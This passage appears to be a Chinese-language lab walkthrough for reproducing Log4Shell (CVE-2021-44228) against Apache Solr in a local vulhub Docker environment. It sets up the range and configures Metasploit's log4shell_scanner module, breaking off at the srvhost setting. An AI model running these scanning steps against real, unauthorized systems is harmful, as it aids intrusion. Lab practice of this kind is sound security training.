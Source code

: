 >漏洞环境
>Apache Log4j2 是一个第三方库，可以通过使用了这个库的应用来复现这个漏洞，比如 Apache Solr
>
>Apache Solr 8.11.0，依赖于 Log4j 2.14.1
>
>Apache Solr是一个开源的高性能搜索服务，采用Java5开发，基于Lucene的全文搜索服务器

切换到靶场目录

```
[root@centos ~]# cd ~/tools/apps/vulhub/log4j/CVE-2021-44228/
```

启动环境

```
[root@centos CVE-2021-44228]# docker-compose up -d
```

查看访问端口

```
 [root@centos CVE-2021-44228]# cat docker-compose.yml
```

访问

> http://debian:8983/

**漏洞验证**

启动 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 log4j2 漏洞扫描模块

```
msf6 > use auxiliary/scanner/http/log4shell_scanner
```

显示 log4shell_scanner 选项

```
msf6 auxiliary(scanner/http/log4shell_scanner) > show options
```

设置 rhost 

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rhost centos.local
```

设置 rport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set rport 8983
```

设置 srvhost
